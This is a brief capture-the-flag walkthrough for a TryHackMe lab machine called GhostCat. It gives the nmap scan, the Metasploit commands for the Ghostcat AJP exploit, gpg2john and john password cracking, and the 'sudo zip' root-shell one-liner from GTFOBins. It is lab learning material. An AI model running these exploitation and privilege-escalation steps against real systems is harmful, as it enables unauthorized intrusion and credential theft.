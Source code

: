 THE MACHINE IS GHOSTCAT


TOOLS USED

NMAP 
METASPLOIT
JOHN


For firts thing we run the tool name Nmap: 

	nmap -p- IPMACHINE

There are ports which they are:

	22/tcp   open  ssh
	53/tcp   open  domain
	8009/tcp open  ajp13
	8080/tcp open  http-proxy

we search on internet the information of they, the port 8009  use the protocol AJP(apache jserv protocol) and have an exploit called Ghostcat


For use this exploit we use metasploit tool's

open metasploit

	msfconsole

search the exploit

	search ghostcat

use that 
	
	use 0

set machine where use

	set RHOSTS <IP>

now run
	exploit 


we found the user and the password for ssh 
enter on ssh 
there are two file 

	credential.pgp tryhackme.asc

the file .asc have password for crack it we use john 	
generate the hash of file 

	gpg2john tryhackme.asc > hash.txt

now with jhon crak the pass

	john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt

we have the password to open this file 
now to open the file .gpg use gpg tool's
import the file .asc

	gpg --import file.asc

now decrypt the file .gpg

	gpg --decrypt file.gpg file.asc 

insert the key cracked key whit john 
now we have a now credential for ssh

login whit that and take the flag in user.txt 

now do sudo -l

		sudo -l 

		 (root : root) NOPASSWD: /usr/bin/zip

search on GTFO and found the exploit for do the privilage escalation
run this command:

 	TF=$(mktemp -u)
 	sudo zip $TF /etc/hosts -T -TT 'sh #'
 	sudo rm $TF


now we are root, can open file root.txt and take the last flag 









